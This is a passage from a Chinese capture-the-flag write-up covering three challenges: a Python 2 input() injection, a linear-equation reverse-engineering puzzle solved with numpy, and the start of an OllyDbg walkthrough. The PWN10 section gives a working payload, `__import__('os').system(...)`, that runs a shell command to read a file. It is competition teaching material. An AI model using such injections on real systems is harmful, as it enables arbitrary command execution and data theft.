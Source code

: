 原理是啥暂时不知道.

## PWN10 babyjsc

这个题和pwn貌似完全没关系，就是考了个py2和py3的`input`的差别，py2里input可以执行表达式，直接得到flag，不过这题是py2我也是瞎猜的.

payload：`__import__('os').system('cat /home/ctf/flag')`

![10](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/9fb978653eaffe11696328f0da4a18a5.png)

## REVERSE15 z3

方程组

![11](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/3e10cd231ff4f8a04dafad8386abfdb2.png)

等于的值

![12](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/b08ba2cfbf7e6146e32f83a4f37ee26c.png)

```python
#!/usr/bin/env python2
import numpy
a=numpy.array([[12,53,6,34,58,36,1],[83,85,12,73,27,96,52],[78,53,24,36,86,25,46],[39,78,52,9,62,37,84],[23,6,14,74,48,12,83],[27,85,92,42,48,15,72],[4,6,3,67,0,26,68]])
b=numpy.array([0x4F17,0x9CF6,0x8DDB,0x8EA6,0x6929,0x9911,0x40A2])
x1=numpy.linalg.solve(a,b)
d=numpy.array([0x2F3E,0x62B6,0x4B82,0x486C,0x4002,0x52D7,0x2DEF])
x2=numpy.linalg.solve(a,d)
f=numpy.array([0x28DC,0x640D,0x528F,0x613B,0x4781,0x6B17,0x3237])
x3=numpy.linalg.solve(a,f)
h=numpy.array([0x2A93,0x615F,0x50BE,0x598E,0x4656,0x5B31,0x313A])
x4=numpy.linalg.solve(a,h)
j=numpy.array([0x3010,0x67FE,0x4D5F,0x58DB,0x3799,0x60A0,0x2750])
x5=numpy.linalg.solve(a,j)
l=numpy.array([0x3759,0x8953,0x7122,0x81F9,0x5524,0x8971,0x3A1D])
x6=numpy.linalg.solve(a,l)
print ''.join(map(lambda x:chr(int(round(x))),x1)),
print ''.join(map(lambda x:chr(int(round(x))),x2)),
print ''.join(map(lambda x:chr(int(round(x))),x3)),
print ''.join(map(lambda x:chr(int(round(x))),x4)),
print ''.join(map(lambda x:chr(int(round(x))),x5)),
print ''.join(map(lambda x:chr(int(round(x))),x6))
```

`flag{7e171d43-63b9-4e18-990e-6e14c2afe648}`

## REVERSE16 hyperthreading

用`Ollydbg`打开，搜索字符串找到比较的地方下断点

![13](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/515d6f3f8eb908b1f6ddf626111ea8d6.png)
